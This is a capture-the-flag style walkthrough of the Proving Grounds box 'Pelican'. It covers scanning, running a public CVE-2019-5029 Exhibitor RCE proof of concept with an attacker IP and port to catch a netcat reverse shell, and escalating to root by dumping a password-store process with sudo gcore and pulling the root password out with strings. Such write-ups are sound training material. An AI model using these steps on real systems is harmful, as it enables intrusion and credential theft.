

Pelican is an intermediate Proving Grounds box, also rated as intermediate by the community. `gcore` and `strings` are binaries used in this lab to extract credentials from snapshots of a particular program which are then used for privilege escalation.

We will start with a basic `nmap` scan:

```
nmap <target ip> -sC -sS -sV -Pn -p- -T4 --min-rate 10000
```


Ports of interest are `8080` and `8081`, but because it looks like `8080` leads to a `404` dead end, we can start with `8081`.


While we analyze port `8080`, we can begin a `dirsearch`:

```
python3 dirsearch.py -u <target ip>:8081 -e html,txt,php -x 400,401,403,404
```


Nothing of interest found. From the landing page of port `8080` we can see a version number (v1.0) on the top right. Let's enumerate this number along with key words like ZooKeeper and Exhibitor, which are potential service names.

```
searchsploit zookeeper
```


We get back a result with `searchsploit`, confirming that ZooKeeper is indeed a service. But the version number doesn't seem to match. Let's hit up Google:


[Exploit DB](https://www.exploit-db.com/exploits/48654)



ExploitDB tells us this is an RCE vulnerability which is always good news for hackers. Looking up the CVE number on Google lands us at a Github PoC:


`git clone` the repo and let's execute this bad boy! :smile:

```
python3 CVE-2019-5029 <target ip> <target port> <attacker ip> <attacker port>
```

Have a listener up on port 80 on another with `nc` or `penelope`:


We got a shell! We're logged in as the user `charles`. Let's see if we can grab the initial foothold flag:


With a little bit of digging, the `local.txt` flag was found. Easy wins first: what does `sudo -l` give us? In other words, what can `charles` run as `sudo`?

```
sudo -l
```


`gcore` is an interesting binary, but I haven't ran into it myself before. GTFOBins gives us a nice rundown on the command:


In other words, this is telling us that `gcore` can be used to create snapshots of programs that can potentially have sensitive information. We'll keep this in mind as we enumerate the machine further. Let's move on to transferring both `pspy` and `linpeas` files to the target box:

```
./pspy32s
```


A process does seem to be running repeatedly in the background, but not really sure what it could be or how it relates to `gcore` yet. Let's try `linpeas`:

```
./linpeas
```


Couldn't find anything super interesting in the `linpeas` output except for maybe potential hidden ports that we can enumerate later. Check the machines `crontab`:

```
cat /etc/crontab
```


We get that same output from `pspy` here and it looks like another process is running that we didn't catch before: `password-store`. Let's use `ps aux` to analyze this program further:

```
ps aux | grep "password"
```


`password-store` is indeed running in the background and now we know the PID of the process: `486`. With the information on `gcore` from GTFOBins, it's possible that sensitive data is stored within `password-store`.

```
sudo /usr/bin/gcore 486
```


We've created a snapshot in memory of the `password-store` process under `core.486`. It's a binary which means it isn't human readable, so we use `strings` to extract anything that is:

```
strings core.486
```


Scrolling through the output we find something that seems like the `root` password.

```
ClogKingpinInning731
```

Doesn't hurt to try logging into `root` with it:

```
su - root
```


Rooted! :partying_face:
